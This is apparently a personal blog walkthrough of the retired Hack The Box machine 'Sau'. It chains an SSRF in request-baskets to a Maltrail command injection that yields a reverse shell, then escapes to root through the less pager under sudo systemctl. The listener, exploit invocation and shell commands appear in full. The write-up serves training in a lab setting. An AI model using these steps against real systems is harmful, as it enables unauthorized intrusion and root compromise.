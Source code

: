 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/Sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * nmap shows ports 22 and 55555 are open and port 80 is filtered.
> * Port 55555 is running a version of `request-baskets` that is vulnerable to SSRF, allowing us to set up a proxy to access port 80.
> * Port 80 is running a service called `Maltrail` which is vulnerable to unauthenticated remote OS comand injection, allowing us to get a reverse shell.
> * Our user is able to run systemctl as sudo. This version uses the pager `less`, which retains the sudo priviledges allowing us to spawn a shell as root.
{: .prompt-tip }

## Enumeration

Let's start off with a basic nmap scan.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Forwarding settings for basket](forward_settings1.png)

Next, let's curl the basket using the URL provided

![The url for our basket](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![curl the basket with nc listener open](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Adjusting the settings for our basket](forward_settings2.png)

### Maltrail v 0.53

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Broken looking homepage for maltrail on port 80](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. [Spookier Maltrail v 0.53 Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

### We have a shell!

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Terminal showing reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".

## Foothold & User

Let's upgrade our shell a little and take a look around.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.224] 51276
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';
puma@sau:/opt/maltrail$ 
```

### User Flag

If we navigate to `/home/puma` we are able to get the `user.txt` flag, no privesc needed at this point.

### Privesc

One of the first things I like to run is `sudo -l` to see if our user can run anything as root.

```bash
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo! Looks like we're able to run `sudo systemctl status trail.service` with no password. If we run `systemctl --version`, we see that we're running `systemd 245 (245.4-4ubuntu3.22)`.

## Root!

It appears that if we run the command as sudo, it will use the pager `less` to show the results. Within `less`, we are able to run commands and it maintains the sudo priviledges allowing us to launch `/bin/bash` as root. To run a command in less you just type `!` followed by your command.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we have root!



